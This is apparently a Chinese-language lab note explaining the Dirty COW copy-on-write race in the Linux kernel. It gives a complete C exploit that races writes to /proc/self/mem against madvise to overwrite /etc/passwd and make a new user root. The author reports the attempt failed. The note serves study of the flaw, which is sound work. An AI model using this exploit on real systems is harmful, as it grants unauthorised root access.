


# 脏牛漏洞攻击

## 漏洞的产生

写时拷贝类型的内存，write会经过以下三个步骤：  
1、对映射的内存做一份拷贝  
2、更新页表，让虚拟内存指向新创建的物理内存  
3、写入内存  
如果步骤2和3被其他线程打断，造成了竟态条件，如果步骤2让虚拟内存指向最初的物理内存，而不是私有拷贝，使得只读文件被
修改，这就是脏牛漏洞

## 利用脏牛漏洞

!!! 脏牛漏洞影响的ubuntu版本

    为ubuntu 12.04~14.10之间的版本，含EXP

为了利用脏牛漏洞，需要两个线程，一个线程通过write()函数尝试修改映射内存，另外一个线程使用madvise()函数丢弃映射
内存的私有拷贝。

攻击流程：增加一个普通用户testcow，利用脏牛漏洞把该用户提升为root权限。  
首先增加一个用户：
```bash
sudo adduser testcow
```


```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

// 把1002改成0000，因为映射内存是COW类型的，这个线程执行时，
// 只能修改映射内存的拷贝，不会对/etc/passwd文件有任何影响
void *writeThread(void *arg)
{
    char *content = "testcow:x:0000";
    off_t offset = (off_t)arg;
    
    int f = open("/proc/self/mem", O_RDWR);
    while(1)
    {
        lseek(f, offset, SEEK_SET);
        write(f, content, strlen(content));
    }
}

// 抛弃映射内存的私有拷贝，让页表指回最初的映射内存
void *madviseThread(void *arg)
{
    int file_size = (int)arg;
    while(1)
    {
        madvise(map, file_size, MADV_DONTNEED);
    }
}

int main(int argc, char *argv[])
{
    pthread_t pth1, pth2;
    struct stat st;
    int file_size;
    
    int f=open("/etc/passwd", O_RDONLY);
    fstat(f, &st);
    file_size = st.st_size;
    map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
    char *position = strstr(map, "testcow:x:1002");
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);
    
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    return 0;
}

```

fstat是从文件描述符取得文件的状态  
pthread_create创建并执行两个线程  
gcc中的-lpthread，不仅可以链接pthread库，还可以打开系统头文件中的各种多线程支持分支。  



!!! warning

    实验没有成功，最终显示testcow:x:0000则实验成功。操作系统换成12.04，系统不更新，也是一样结果。
    对比程序和seed lab一样，可能是系统原因，需要下载seed lab镜像再试。